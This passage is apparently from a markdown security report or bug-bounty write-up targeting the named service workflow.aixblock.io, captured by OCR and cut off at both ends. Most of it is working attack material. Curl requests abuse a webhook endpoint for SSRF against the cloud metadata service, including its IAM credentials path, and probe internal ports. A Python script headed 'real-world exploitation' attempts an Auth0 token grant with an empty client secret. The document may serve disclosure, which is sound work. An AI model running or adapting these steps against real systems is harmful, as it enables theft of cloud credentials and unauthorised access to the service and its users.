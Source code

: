 ```bash
</saml:Assertion>'
```

#### **3. Webhook SSRF Exploitation**
```bash
# Step 1: Webhook endpoint discovery
curl -s "https://workflow.aixblock.io/api/v1/webhooks" -v

# Step 2: SSRF payload testing
curl -X POST "https://workflow.aixblock.io/api/v1/webhooks" \
  -H "Content-Type: application/json" \
  -d '{
    "url": "http://169.254.169.254/latest/meta-data/",
    "method": "GET"
  }'

# Step 3: Internal network scanning
curl -X POST "https://workflow.aixblock.io/api/v1/webhooks" \
  -H "Content-Type: application/json" \
  -d '{
    "url": "http://127.0.0.1:22",
    "method": "GET"
  }'

# Step 4: Cloud metadata access
curl -X POST "https://workflow.aixblock.io/api/v1/webhooks" \
  -H "Content-Type: application/json" \
  -d '{
    "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
    "method": "GET"
  }'
```

## **💥 REAL-WORLD EXPLOITATION SCENARIOS**

### **Scenario 1: Auth0 Bypass Attack**
```python
# Python exploit script
import requests
import json

def exploit_auth0_bypass():
    # Extract configuration
    config_url = "https://workflow.aixblock.io/api/v1/flags"
    response = requests.get(config_url)
    config = response.json()
    
    # Extract Auth0 credentials
    auth0_domain = config['AUTH0_DOMAIN']
    client_id = config['AUTH0_APP_CLIENT_ID']
    
    # Attempt Auth0 exploitation
    auth0_url = f"https://{auth0_domain}/oauth/token"
    payload = {
        "client_id": client_id,
        "client_secret": "",  # Try empty secret
        "audience": f"https://{auth0_domain}/api/v2/",
        "grant_type": "client_credentials"
    }
    
    auth_response = requests.post(auth0_url, json=payload)
    if auth_response.status_code == 200:
        token = auth_response.json().get('access_token')
```